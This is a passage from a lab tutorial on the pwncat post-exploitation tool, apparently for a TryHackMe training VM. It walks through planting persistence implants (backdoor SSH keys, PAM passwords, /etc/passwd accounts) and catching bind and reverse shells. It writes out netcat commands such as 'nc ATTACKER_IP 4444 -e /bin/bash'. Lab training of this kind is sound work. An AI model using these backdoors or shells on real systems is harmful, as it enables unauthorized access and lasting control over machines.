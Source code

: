 ## Persistance through implants

pwncat offers several mechanisms to deploy **implants** that will allow persistance. It is all dependant on the permissions in your current security context. The type of implants you can deploy include:
- Backdoor SSH keys in the `authorized_keys` file
- Backdoor password in PAM
- Backdoor account in /etc/passwd 

So let's try to deploy an implant into the account we have access to:
1. Generate a new SSH key pair: `ssh-keygen -f targ -C targgggrrrr
2. Deploy the implant using pwncat: `run implant.authorized_key key=./targ`
3. Switch back to reomte-mode with `CTRL+D`
4. Adjust perms on .ssh directory to leverage authorized_keys: `chmod 700 /home/shell/.ssh`
5. From another console login using your keys: `pwncat-cs shell@vm.thm -i ./targ`

Success!! You've now got persistance!

Sometimes its a good idea to _leave no trace_. When you are done your engagement you can remove your implants. pwncat tracks this, and allows you to list and remove them. Let's give that a go:

1. From local-mode, enter: `run implant list`. You should be able to see what implants you have left.
2. Now let's remove any implants: `run implant remove`. You will have the option to remove individual implants, or all of them. Once done, the channel will close your connection.
3. Try reconnecting with your keys. It SHOULD fail.
4. Now log back in using `pwncat-cs shell@vm.thm`.... or for extra points if you have a second session open, reinstall the implant so you can connect back using `pwncat-cs shell@vm.thm -i ./targ`

# Bind and reverse shells
OK, so we showed how to use pwncat to connect via SSH. But its also really useful in catching shells. 

For the next couple of exercises, we will use [revshells.com](https://www.revshells.com) to generate some of our shell code.

Let's start with a bind shell:
1. Connect to the THM vm using SSH (not pwncat): `ssh shell@vm.thm -i ./targ`
2. Start a bind shell using netcat on your favorite port: `nc -lvnp 4444 -e /bin/bash`
3. In another console window, connect to the bind shell using pwncat: `pwncat-cs vm.thm 4444`
4. Switch to remote-mode: `CTRL+D`
5. Check what user you are: `whoami`.

If you see the user **shell**, success! You cought your first bind shell. While this is good and all, chances are what you really want is to catch a reverse shell. So let's give that a try. 

First, clean up after yourself by going into local-mode and typing `exit` to kill that shell. Then in your SSH sesssion on vm.thm, hit `CTRL+C` if the session is hung and didn't already bring you back to the bash shell.

OK, time to setup your first reverse shell:
1. Figure out what your local IP address is on the THM VPN: `ip a s tun0` or `ifconfig tun0`. I will call this ATTACKER_IP from now on.
2. In a local console window on your attacker system start pwncat to catch the reverse shell: `pwncat-cs -lp 4444`
3. In the SSH session on vm.thm, fire a reverse shell back using netcat: `nc ATTACKER_IP 4444 -e /bin/bash`
4. Go back to your console window and you should see you caught your first reverse shell!
